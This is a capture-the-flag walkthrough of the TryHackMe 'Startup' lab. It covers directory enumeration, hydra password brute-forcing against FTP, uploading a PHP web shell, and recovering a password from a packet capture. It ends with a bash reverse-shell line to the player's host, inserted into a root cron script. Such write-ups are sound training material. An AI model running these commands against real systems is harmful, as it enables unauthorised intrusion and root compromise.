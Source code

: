 ```yaml
---
layout: post
title: Walkthrough - Startup
published: true
---
```


Abuse traditional vulnerabilities via untraditional means.

[https://tryhackme.com/room/startup](https://tryhackme.com/room/startup)

* * *

## Welcome to Spice Hut! 

We are Spice Hut, a new startup company that just made it big! We offer a variety of spices and club sandwiches (in case you get hungry), but that is not why you are here. To be truthful, we aren't sure if our developers know what they are doing and our security concerns are rising. We ask that you perform a thorough penetration test and try to own root. Good luck!

* * * 

3 Open Ports

21/tcp open  ftp     syn-ack ttl 61
22/tcp open  ssh     syn-ack ttl 61
80/tcp open  http    syn-ack ttl 61

* * * 

## What is the secret spicy soup recipe? 

![](/assets/startup01.png)

- ``gobuster dir -u http://10.10.52.133/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,html,php --no-error -t 100``

![](/assets/startup02.png)

- We get a username "Maya" from ``notice.txt`` try to use this with hydra to get access to ftp or ssh
- ``hydra -l maya -P /usr/share/seclists/Passwords/rockyou.txt -t 16 10.10.52.133 ftp``
- Upload pentestmonkey shell to /ftp via anonymous ftp
- upgrade shell ``python3 -c 'import pty;pty.spawn("/bin/bash")'``
- ``cat recipe.txt`` to find our first ingredient.

* * * 

## What are the contents of user.txt?

- Our hint is something that doesnt belong...
- Python3 is installed i can ``python3 -m http.server 5000`` and download ``suspicious.pcapng`` from ``/incidents/``
- ``.pcapng`` is a packet capture dump. Can probably open in wireshark.
- checking this out can see a few things such as an attacker uploading a shell.php like me and an incorrect login attempts using ``c4ntg3t3n0ughsp1c3`` as a password....we also see ``lennie``...
- we can login as lennie! and find the flag in their home directory.

![](/assets/startup03.png)

* * * 

## What are the contents of root.txt?

- our hint is scripts and apparently root is running this in their crontab, because inserting ``sh -i >& /dev/tcp/10.2.127.225/6668 0>&1`` into ``/etc/print.sh`` and setting up a listener on my kali gets a root reverse shell.
- ``cat root.txt`` for our final flag.

* * * 
